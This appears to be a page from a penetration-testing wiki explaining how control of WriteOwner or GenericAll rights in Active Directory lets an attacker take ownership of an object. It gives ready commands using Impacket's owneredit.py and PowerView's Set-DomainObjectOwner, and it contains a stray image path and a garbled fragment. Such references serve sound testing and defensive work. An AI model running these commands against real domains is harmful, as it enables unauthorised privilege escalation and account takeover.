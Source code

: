 # Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

:warning: _At the time of writing, May 14th 2022, the_ [_Pull Request (#1323)_](https://github.com/SecureAuthCorp/impacket/pull/1323) _is still pending._

```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```
{% endtab %}
{% endtabs %}
